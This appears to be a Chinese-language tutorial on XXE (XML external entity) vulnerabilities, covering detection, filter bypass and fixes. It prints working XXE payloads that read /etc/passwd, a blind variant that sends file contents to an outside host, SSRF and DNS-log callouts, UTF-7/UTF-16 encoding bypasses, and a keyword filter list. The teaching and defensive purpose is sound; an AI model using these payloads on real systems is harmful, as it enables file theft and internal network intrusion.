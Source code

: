 ## 0x01 XXE漏洞简介

### 1.1 漏洞场景

​	XXE漏洞全称XML External Entity Injection即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害。xxe漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。

## 0x02 XXE漏洞检测

### 2.1 Payload

#### 2.1.1 文件包含

```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```

#### 2.1.2 盲LFI测试

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
```

#### 2.1.3 SSRF测试

```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```

#### 2.1.4 XXE FTP服务器

- [Content_Types].xml

```
<!DOCTYPE x [ <!ENTITY xxe SYSTEM "http:///test.dnslog.cn"> ]>
<x>&xxe;</x>
```

- xxeftp

```
./xxeftp -w
```

### 2.2 Bypass

#### 2.2.1 实体编码

| <    | `&lt;`   |
| ---- | -------- |
| >    | `&gt;`   |
| &    | `&amp;`  |
| '    | `&apos;` |
| "    | `&quot;` |
| 换行 | `&#xd;`  |

#### 2.2.2 UTF编码

- UTF-16

```
iconv -f utf8 -t utf16 1.xml -o 2.xml
```

- UTF-7

```
iconv -f utf8 -t utf7 1.xml -o 2.xml
```

## 0x03 XXE漏洞修复

### 3.1 禁用外部实体

- Python

```
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

- Java

```
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
```

### 3.2 过滤XML数据

​	过滤关键词<\!DOCTYPE、<\!ENTITY、SYSTEM和PUBLIC。

### 3.3 不允许XML含有自定义DTD
